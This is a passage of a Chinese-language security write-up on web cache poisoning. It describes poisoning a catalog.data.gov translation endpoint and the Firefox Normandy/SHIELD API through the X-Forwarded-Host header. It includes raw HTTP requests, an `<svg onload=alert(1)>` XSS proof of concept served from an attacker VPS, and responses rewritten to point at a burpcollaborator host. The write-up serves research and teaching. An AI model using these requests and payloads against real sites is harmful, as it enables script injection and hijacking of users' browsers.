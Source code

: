 作者在Burp Suite中做了一个替换，将canary替换为了类似`xxx.dnslog.cn`的dnslog地址，然后继续浏览，在dnslog平台收到了来自Firefox的如下请求：

```http
GET /api/i18n/en HTTP/1.1
Host: xxx.dnslog.net
```

这个路径应该是藏在该站的某处，通过访问`https://catalog.data.gov/api/i18n/en`发现返回空的json数据。作者将en改为es，发现了一点蛛丝马迹。

```http
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}
```

这个文件将词组翻译成用户选择的语言，于是，作者在自己的vps上部署了一个相同路径的json XSS POC `{"Show more":"<svg onload=alert(1)>"}`。发送如下数据包，投毒成功。

```http
GET  /api/i18n/en HTTP/1.1
Host: portswigger-labs.net

HTTP/1.1 200 OK
...
{"Show more":"<svg onload=alert(1)>"}
```

结果就是任何页面包含“show more"都会执行POC。



### 2.5 劫持 Mozilla SHIELD系统

在测试` catalog.data.gov`的时候，log上还发现了如下的请求

```http
GET /api/v1/recipe/signed/ HTTP/1.1
Host: xyz.burpcollaborator.net
User-Agent: Mozilla/5.0 … Firefox/57.0
Accept: application/json
origin: null
X-Forwarded-Host: xyz.burpcollaborator.net
```

这个请求的小写`origin`引起了作者的注意。通过查询代理记录，发现是firefox的问题。

```http
GET /api/v1/ HTTP/1.1
Host: normandy.cdn.mozilla.net
X-Forwarded-Host: xyz.burpcollaborator.net

HTTP/1.1 200 OK
{
  "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",
  "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",
  "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",
  "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",
   …
}
```
